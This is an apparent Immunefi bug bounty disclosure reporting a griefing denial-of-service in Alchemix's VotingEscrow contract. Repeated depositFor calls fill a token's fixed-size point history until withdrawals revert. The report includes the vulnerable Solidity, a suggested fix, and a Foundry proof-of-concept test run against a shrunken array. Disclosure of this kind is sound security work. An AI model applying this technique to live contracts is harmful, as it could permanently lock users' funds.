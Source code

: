
# DOS of withdrawals through filling the userPointHistory

Submitted on Wed May 08 2024 01:48:35 GMT-0400 (Atlantic Standard Time) by @NinetyNineCrits for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30922

Report type: Smart Contract

Report severity: High

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro

While not very feasible, it is technically possible to DOS withdraws associated with a tokenId, by doing a large amount of deposits for said tokenId.

## Vulnerability Details

Unlike Velodrome, every `_checkpoint` call with an associated tokenId writes a new userPoint:

```solidity
    uint256 userEpoch = userPointEpoch[_tokenId] + 1;

    userPointEpoch[_tokenId] = userEpoch;
    newPoint.ts = block.timestamp;
    newPoint.blk = block.number;
    userPointHistory[_tokenId][userEpoch] = newPoint;
```

This opens up the door to a DOS, as the number of possible user points is limited:

```solidity
mapping(uint256 => Point[1000000000]) public userPointHistory;
```

Any user can invoke `_checkpoint` for any tokenId by using `depositFor`.

Naturally 1 Billion is a very large number that somewhats limits the feasability and likelihood of this attack (but does not mean a billion transactions need to be made, as the deposits could be looped through a contract). Even though the impact could be categorized as a `permanent freeze`, the limitations do not justify a higher severity than medium imo, hence `griefing` seems to be the appropriate impact.

## Impact Details
DOS of any tokenId, but associated with very high costs of attack.

## Recommendations
Consider going back to Velodromes approach of accounting, which limits the addition of points to 1 per block:

```solidity
uint256 userEpoch = userPointEpoch[_tokenId];
if (userEpoch != 0 && _userPointHistory[_tokenId][userEpoch].ts == block.timestamp) {
    _userPointHistory[_tokenId][userEpoch] = uNew;
} else {
    userPointEpoch[_tokenId] = ++userEpoch;
    _userPointHistory[_tokenId][userEpoch] = uNew;
}
```

This would also add a time constraint on the attack, which would require 380 years, assuming a a block each 12 seconds.
        
## Proof of concept
## Proof of Concept

```solidity
    //@note requires modifying `mapping(uint256 => Point[1000000000]) public userPointHistory;` in VotingEscrow to a size of 5
    function testMinhDOSWithdraw() public {
        address user = address(0x12345);
        address attacker = address(0x6789);
        deal(bpt, user, 10e18);
        deal(bpt, attacker, 10);

        hevm.startPrank(user);
        IERC20(bpt).approve(address(veALCX), 10e18);
        uint256 tokenId = veALCX.createLock(10e18, 2 weeks, false);
        hevm.stopPrank();

        hevm.startPrank(attacker);
        IERC20(bpt).approve(address(veALCX), 10);
        veALCX.depositFor(tokenId, 1);
        veALCX.depositFor(tokenId, 1);
        veALCX.depositFor(tokenId, 1);
        hevm.stopPrank();

        hevm.warp(block.timestamp + 2 weeks);

        hevm.startPrank(user);
        veALCX.startCooldown(tokenId);

        hevm.warp(block.timestamp + 2 weeks);

        veALCX.withdraw(tokenId);
    }
```

This test will revert on the `withdraw` call with:

```solidity
[FAIL. Reason: Index out of bounds]
```
